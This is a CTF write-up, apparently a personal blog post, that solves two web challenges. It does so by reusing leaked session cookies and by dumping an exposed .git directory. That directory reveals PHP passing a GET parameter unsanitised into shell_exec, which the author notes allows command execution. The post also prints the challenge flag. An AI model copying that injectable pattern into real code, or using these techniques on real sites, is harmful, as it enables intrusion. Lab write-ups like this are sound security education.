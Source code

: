 ﻿---
layout: post
title:  "CyberTalents - Ainshams University CTF2019"
description: It was very easy Web Challenge.
tags: websec cybertalents rce
img: "/images/WebCTF/ainshams/banner.jpg"
---
I will solve the web Challenges in this post so there are two challenge select anyone you need and enjoy  

1. [Dark Session](#dark-session)
2. [Broken Doors](#broken-doors)  

# Dark Session

As the usual I will run dirb  but in i found nothing bad luck xD  

So let's see the the source code  

Yes i found brainFuck encryption  

![image](/images/WebCTF/ainshams/1.png)

So let's decode it [dcode.fr](https://www.dcode.fr/brainfuck-language)  

Awsomme we got something looks useful  
```javascript
if(document.cookie !== ''){        $.post('getuserinfo.php',{          'PHPSESSID':document.cookie.match(/PHPSESSID=([^;]+)/)[1](        },function(data){2          cu = data;<        });F      }
```
There are `getuserinfo.php` and it's takes POST data `PHPSESSID= ???`  

So let's see what's inside it  

![image](/images/WebCTF/ainshams/2.png)  

Ahaa it's API Hmmm  

So we need value for PHPSESSID to get the userinfo  

Let's back to `/Dark-Sessions/` and see again on it  

Damn I got this message   
```
Session not found in our secret place , {http://tiny.cc/u16dfz}
```

It's pastbin and there are Secret Sessions
```
#Secret_Sessions#
iuqwhe23eh23kej2hd2u3h2k23
11l3ztdo96ritoitf9fr092ru3
ksjdlaskjd23ljd2lkjdkasdlk
```
So let put it in Cookie and see what will happen  

```bash
GET /Dark-Sessions/ HTTP/1.1
Host: 54.93.122.202
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ar,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=11l3ztdo96ritoitf9fr092ru3
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
Shit I got anther message 
```
UserInfo Cookie don't have the username , you need to go deeper... 
```
I think i need to get the username and put it in Cookie too in UserInfo   

So let's try to send the session in the API and let's see what will happen  

![image](/images/WebCTF/ainshams/3.png)

Awsome i got the username it's so easy  

let's put it in the Cookie  

![image](/images/WebCTF/ainshams/4.png)

Woow it's so easy we got the flag
```
Secret_session_gained_succefully
```
# Broken doors

As the usual I will run dirb  

```Bash
root@kali:~/Desktop# dirb http://18.197.166.159/Broken-doors/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sat Nov 30 12:15:24 2019
URL_BASE: http://18.197.166.159/Broken-doors/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4614

---- Scanning URL: http://18.197.166.159/Broken-doors/ ----
+ http://18.197.166.159/Broken-doors/.git/HEAD (CODE:200|SIZE:23)
^C> Testing: http://18.197.166.159/Broken-doors/_tempalbums
```
Yes I got .git so lets download it

```Bash
root@kali:~/Desktop/cyber# rm .git
root@kali:~/Desktop/cyber# mkdir git
root@kali:~/Desktop/cyber# cd git
root@kali:~/Desktop/cyber/git# wget -r http://18.197.166.159/Broken-doors/.git/
--2019-11-30 10:56:36--  http://18.197.166.159/Broken-doors/.git/
Connecting to 18.197.166.159:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘18.197.166.159/Broken-doors/.git/index.html’

18.197.166.159/Brok     [ <=>                ]   1.39K  --.-KB/s    in 0s

2019-11-30 10:56:36 (71.8 MB/s) - ‘18.197.166.159/Broken-doors/.git/index.html’ saved [1420]

Loading robots.txt; please ignore errors.
--2019-11-30 10:56:36--  http://18.197.166.159/robots.txt
Reusing existing connection to 18.197.166.159:80.
HTTP request sent, awaiting response... 404 Not Found
2019-11-30 10:56:36 ERROR 404: Not Found.

--2019-11-30 10:56:36--  http://18.197.166.159/Broken-doors/
Reusing existing connection to 18.197.166.159:80.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘18.197.166.159/Broken-doors/index.html’

18.197.166.159/Brok     [ <=>                ]   2.47K  --.-KB/s    in 0s

2019-11-30 10:56:36 (5.19 MB/s) - ‘18.197.166.159/Broken-doors/index.html’ saved [2531]

--2019-11-30 10:56:36--  http://18.197.166.159/Broken-doors/.git/branches/
```
```Bash
root@kali:~/Desktop/cyber/git/18.197.166.159# cd Broken-doors/
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors# ls
index.html
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors# ls -la
total 16
drwxr-xr-x 3 root root 4096 Nov 30 10:56 .
drwxr-xr-x 3 root root 4096 Nov 30 10:56 ..
drwxr-xr-x 8 root root 4096 Nov 30 10:56 .git
-rw-r--r-- 1 root root 2531 Nov 30 10:56 index.html
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors# cd .git
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors/.git# ls -la
total 56
drwxr-xr-x  8 root root 4096 Nov 30 10:56 .
drwxr-xr-x  3 root root 4096 Nov 30 10:56 ..
drwxr-xr-x  2 root root 4096 Nov 30 10:56 branches
-rw-r--r--  1 root root   15 Nov 30 04:56 COMMIT_EDITMSG
-rw-r--r--  1 root root  210 Nov 30 04:55 config
-rw-r--r--  1 root root   73 Nov 30 04:54 description
-rw-r--r--  1 root root   23 Nov 30 04:54 HEAD
drwxr-xr-x  2 root root 4096 Nov 30 10:56 hooks
-rw-r--r--  1 root root  413 Nov 30 04:56 index
-rw-r--r--  1 root root 1420 Nov 30 10:56 index.html
drwxr-xr-x  2 root root 4096 Nov 30 10:56 info
drwxr-xr-x  3 root root 4096 Nov 30 10:56 logs
drwxr-xr-x 12 root root 4096 Nov 30 10:56 objects
drwxr-xr-x  5 root root 4096 Nov 30 10:56 refs
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors/.git# git reflog
29ebf0c (HEAD -> master, origin/master) HEAD@{0}: commit (initial): initial commit
```
Awesome so let's see what inside `29ebf0c`  

```Bash
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors/.git# git show 29ebf0c
commit 29ebf0c83d1793add4635c43b011b5ee4d4c90a7 (HEAD -> master, origin/master)
Author: root <root@ip-172-31-21-79.eu-central-1.compute.internal>
Date:   Sat Nov 30 09:56:16 2019 +0000

    initial commit

diff --git a/.gitignore b/.gitignore
new file mode 100644
index 0000000..acf36e4
--- /dev/null
+++ b/.gitignore
@@ -0,0 +1 @@
+flag
diff --git a/.htaccess b/.htaccess
new file mode 100644
index 0000000..8b13789
--- /dev/null
+++ b/.htaccess
@@ -0,0 +1 @@
+
diff --git a/DoOr1337xoe/.htaccess b/DoOr1337xoe/.htaccess
new file mode 100644
index 0000000..0a9a047
--- /dev/null
+++ b/DoOr1337xoe/.htaccess
```

And i got the index.php file

```Bash
+                <br />^M
+                <b>MD5 Hash: </b>^M
+                <?php^M
+                 echo shell_exec('echo '.$_GET['string'].'| md5sum "-"');^M
+                 ?>^M
+                <br /><br />^M
+            </p>^M
```
So now we have two ways the first one is so easy and the second one is easy  
1. I will visit ```
DoOr1337xoe/flag
```.  

2. I will get RCE from bypass this line 
```
echo shell_exec('echo '.$_GET['string'].'| md5sum "-"');
```.   

So if you lazy like me you i will visit ```url
http://18.197.166.159/Broken-doors/DoOr1337xoe/flag
```  

and you will get the flag `flag{Br0k3n_D00r5_4r3_n0t_s4f3}`  

---

I hope u enjoyed with this writeup. You can follow me on the twitter [@Mrx_Exploit](https://twitter.com/MRX_Exploit)
